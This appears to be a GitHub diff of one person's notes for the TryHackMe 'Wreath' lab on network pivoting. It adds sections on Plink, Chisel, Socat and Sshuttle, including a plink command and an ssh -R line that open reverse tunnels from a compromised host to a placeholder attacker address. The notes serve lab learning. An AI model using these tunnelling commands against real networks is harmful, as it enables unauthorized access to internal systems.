

Before and after one commit to 0xScorpio/Ethical-Hacking, a Markdown page: THM-Writeups/Wreath/notes.md, 2 parts joined by grey strips. Shown at 90% size. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/THM-Writeups/Wreath/README.md
+++ b/THM-Writeups/Wreath/notes.md
@@ -93,7 +99,7 @@ GbJ7oAQ232an8AAAARcm9vdEB0bS1wcm9kLXNlcnYBAg==
 
 
 Like most traditional corporate architectures, Wreath has a similar setup with his 3 machines:
-![[Pasted image 20240425170330.png]]
+
 Therefore, to move past the public-facing web server and into the internal network, we'll need to pivot.
 
 ## Pivoting
@@ -260,3 +266,36 @@ ssh -R 8989:INTERNAL-TARGET-IP:INTERNAL-TARGET-PORT USER@ATTACKER-IP -i KEYFILE
 ### Closing pivoting connections
 
 To close any of these connections, type ```ps aux | grep ssh``` into the terminal of the machine that created the connection, find the Process ID and ```sudo kill PID``` .
+
+### Plink.exe
+
+is a Windows command line version of the PuTTY SSH client.
+
+Generally speaking, Windows servers are unlikely to have an SSH server running so our use of Plink tends to be a case of transporting the binary to the target, then using it to create a reverse connection. This would be done with the following command:
+
+```cmd
+cmd.exe /c echo y | .\plink.exe -R ATTACKER-PORT:INTERNAL-TARGET-IP:INTERNAL-TARGET-PORT user@ATTACKER-IP -i KEYFILE -N
+```
+
+Note that any keys generated by `ssh-keygen` will not work properly here. You will need to convert them using the `puttygen` tool, which can be installed on Kali using `sudo apt install putty-tools`. After downloading the tool, conversion can be done with:
+
+```puttygen KEYFILE -o OUTPUT_KEY.ppk```
+
+***Plink.exe is notorious for going out-of-date quickly - so make sure to update!
+
+### Socat (incomplete)
+### Chisel (incomplete)
+
+Set up a tunnelled proxy or port forward through a compromised system, regardless of the existence of SSH access. Written in Golang and can be easily compiled for any system.
+
+**You must have an appropriate copy of the chisel binary on BOTH the attacking machine and compromised machine!
+
+### Sshuttle
+
+uses an SSH connection to create a tunnelled proxy that acts like a new interface.
+
+In short, it simulates a VPN, allowing us to route our traffic through the proxy _without the use of proxychains_ (or an equivalent). We can just directly connect to devices in the target network as we would normally connect to networked devices.
+
+As it creates a tunnel through SSH (the secure shell), anything we send through the tunnel is also encrypted, which is a nice bonus. ==We use sshuttle entirely on our attacking machine, in much the same way we would SSH into a remote server.==
+
+**Only works on LINUX hosts! It also requires access to the compromised server via SSH, and Python also needs to be installed on the server!**
````
Also changed, not shown: other parts of THM-Writeups/Wreath/notes.md (+10 -4 lines).
